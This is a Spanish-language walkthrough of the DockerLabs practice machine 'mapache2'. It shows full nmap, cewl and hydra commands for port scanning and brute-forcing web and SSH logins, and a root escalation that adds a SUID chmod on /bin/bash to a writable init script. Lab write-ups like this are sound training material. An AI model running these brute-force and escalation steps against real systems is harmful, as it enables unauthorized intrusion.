 # mapache2

Maquina "mapache2" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![mapache](./images/mapache2/img/mapache2.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Sep  2 20:00:22 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000022s latency).
Scanned at 2024-09-02 20:00:23 -03 for 11s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2e:9e:60:04:ea:da:48:98:7a:e3:eb:f5:8e:25:83:33 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPh6UqEY++e9Kf6SVPV8+FwzeSzn1Sb0a5BjOpOhmjfJq4/cPpz7ZuUzWpqkjPx71va69nLnOVJ9eLaCuIq8hi4=
|   256 64:0a:26:78:24:8e:1a:75:54:5a:58:bc:f4:18:ce:4e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIADa8Dt31nScLWTk1pM77PTDusyfx57GAuWtGyGFGRpA
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Hackerspace - Welcome
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
3306/tcp open  mysql?  syn-ack ttl 64
| fingerprint-strings: 
|   NULL: 
|_    We have to change this, I told Medusa to protect this more.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=9/2%Time=66D64388%P=x86_64-pc-linux-gnu%r(
SF:NULL,3C,"We\x20have\x20to\x20change\x20this,\x20I\x20told\x20Medusa\x20
SF:to\x20protect\x20this\x20more\.\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  2 20:00:34 2024 -- 1 IP address (1 host up) scanned in 11.43 seconds
```

Como vemos, los puertos abiertos son:

`22: OpenSSH`

`80: Apache httpd`

`3306: ????`

Si nos fijamos el 3306 no parece estar corriendo mysql ni nada y mas encima dice esto:

"We have to change this, I told Medusa to protect this more."

Para confirmar si realmente dice eso podriamos conectarnos con netcat para ver si nos dice ese mensaje:

```css
nc <ip> 3306
```

y como vemos en la salida, el mensaje es correcto, por lo que tenemos un posible usuario: "medusa"

Ahora que ya obtuvimos algo de información, podemos ir a el navegador y entrar en la ip para ver que hay:

![80](./images/mapache2/img/80.png)

Como vemos es una página que no tiene mucha importancia pero tiene un panel de login, por lo que luego de probar, intento usar `cewl` para obtener las palabras de la página y guardárnoslas para usarlas con hydra :

```css
cewl http://<ip> > pass
```

una vez hecho eso ejecutamos hydra usando el usuario "medusa" y el diccionario:

```css
hydra -l medusa -P pass <ip> http-post-form "/login.php:username=medusa&password=^PASS^:Invalid credentials"
```

![hydra](./images/mapache2/img/hydra.png)

Como vemos ya tenemos la contraseña.

Una vez iniciada la sesión veremos otra página inutil, pero al ver el codigo fuente se ve este mensaje:

```css
<!-- I hope my boss doesn't kill me, but I tell kinder what a mess medusa made with the message from the port. -->
```

parece que hay otro usuario llamado "kinder"

Probamos con el diccionario de antes:

```css
hydra -l kinder -P pass ssh://172.17.0.2
```

pero esto tampoco funciona, por lo que se me ocurre probar la contraseña "medusa" y gano acceso

#### Credenciales:

`Kinder:medusa`

(con la "k" en mayusculas)

## INTRUSION

```css
ssh Kinder@<ip>
```

con contraseña "medusa".

## ESCALADA DE PRIVILEGIOS

Si ejecutamos un `sudo -l` vemos lo siguiente:

```css
Matching Defaults entries for Kinder on 50b2ab6877b6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User Kinder may run the following commands on 50b2ab6877b6:
    (ALL : ALL) NOPASSWD: /usr/sbin/service apache2 restart
```

podemos ver el servicio de apache2 en `/etc/init.d/apache2` y ver si oculta algo. Ahora si hacemos un `ls -la` en ese archivo veremos esto:

```css
-rwxrwxrwx 1 root root 8141 Aug 23 21:07 /etc/init.d/apache2
```

como lo podemos modificar simplemente con nano lo modificamos y la primeras 2 líneas nos deben quedar así:

```css
#!/bin/bash
chmod u+s /bin/bash
```

en resumen: Cambiamos "#!/bin/sh" por "#!/bin/bash" y agregamos un chmod debajo para darle permisos SUID a bash.

Ahora ejecutamos `sudo service apache2 restart` y listo, solo nos queda ejecutar `bash -p` y ya seremos root.

![root](./images/mapache2/img/root.png)

Gracias por leer.
